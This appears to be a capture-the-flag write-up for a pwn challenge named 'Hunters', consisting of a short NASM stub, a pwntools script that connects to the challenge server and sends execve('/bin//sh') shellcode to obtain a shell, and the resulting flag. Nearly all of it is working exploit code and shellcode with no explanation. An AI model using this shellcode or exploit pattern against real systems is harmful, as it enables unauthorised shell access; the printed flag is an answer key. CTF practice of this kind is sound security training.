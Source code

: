 
# Hunters_asm.nasm

```asm
bits 64

lea rbp, [rsp+40]
mov [rsp], rbp
ret
```

# Hunters.py

```py
from pwn import *

sh = b'\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05'

# r = process('./Hunters')
r = remote('chall.nitdgplug.org', 30090)

process(['nasm', './Hunters_asm.nasm'])

sleep(1)

with open('./Hunters_asm', 'rb') as f:
    bin_asm = f.read()

r.recvuntil(b'hunter? : ')
r.sendline(bin_asm)

r.recvuntil(b'possession? : ')

r.sendline(sh)

r.interactive()
```

# FLAG

**`GLUG{egg_HUnTER_cH@MpIoN}`**

